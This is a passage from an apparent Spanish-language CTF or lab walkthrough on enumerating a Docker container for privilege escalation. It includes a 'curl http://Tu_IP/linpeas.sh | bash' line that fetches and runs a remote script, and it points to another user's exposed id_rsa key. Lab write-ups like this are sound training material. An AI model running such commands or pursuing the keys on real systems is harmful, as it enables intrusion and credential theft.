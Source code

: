 
<h2 id="Docker">Enumeración de Contenedor de Docker</h2>

No tenemos el comando **sudo**, por lo qué no sabemos que privilegios tenemos:
```bash
pepita@webserver:~$ sudo -l
-bash: sudo: command not found
```

Busquemos si hay algún binario con **permisos SUID**:
```bash
pepita@webserver:~$ find / -perm -4000 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
No hay alguno que podamos usar.

Al no encontrar algo más, utilicemos la herramienta **linpeas.sh**. Puedes descargarla aquí:
* <a href="https://github.com/peass-ng/PEASS-ng/tree/master" target="_blank">Repositorio de peass-ng: linpeas.sh</a>

En mi caso, no lo voy a descargar, sino ejecutarlo de manera remota utilizando un servidor de **Python3** en mi máquina:
```bash
pepita@webserver:~$ curl http://Tu_IP/linpeas.sh | bash
```

Observa lo siguiente:
```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
/dev/mqueue
/dev/shm
/home/pepita
/host/juanita
/host/juanita/.bash_logout
/host/juanita/.bashrc
/host/juanita/.profile
/host/juanita/.ssh
/host/juanita/.ssh/authorized_keys
/host/juanita/.ssh/id_rsa
/run/lock
/tmp
/var/lib/php/sessions
/var/tmp
```
Parece que hay archivos de otro usuario en el directorio `/host`, y ahí vemos una llave **id_rsa**.
